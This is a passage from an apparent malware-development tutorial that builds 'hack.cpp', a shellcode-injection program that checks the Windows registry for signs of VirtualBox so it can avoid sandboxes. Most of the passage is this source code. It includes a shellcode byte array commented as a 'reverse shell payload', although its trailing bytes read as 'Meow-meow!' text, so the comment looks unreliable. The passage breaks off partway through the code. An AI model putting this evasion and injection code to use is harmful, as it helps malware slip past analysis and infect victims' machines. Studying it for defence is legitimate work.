 ```cpp
  return FALSE;
}
```

This function logic is also quite simple. We check value of the registry key via `RegQueryValueExA` in which the result of function `RegOpenKeyExA` is the first parameter.    

I will only consider `Oracle VirtualBox`. For another VMs/sandboxes the tricks is the same.    

### practical example   

So let's go to consider practical example. Let's take a look at the complete source code:    

```cpp
/*
* hack.cpp
* classic payload injection with VM virtualbox evasion tricks
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/2022/04/09/malware-av-evasion-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegCloseKey(hKey);
    return TRUE;
  }
  return FALSE;
}

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
```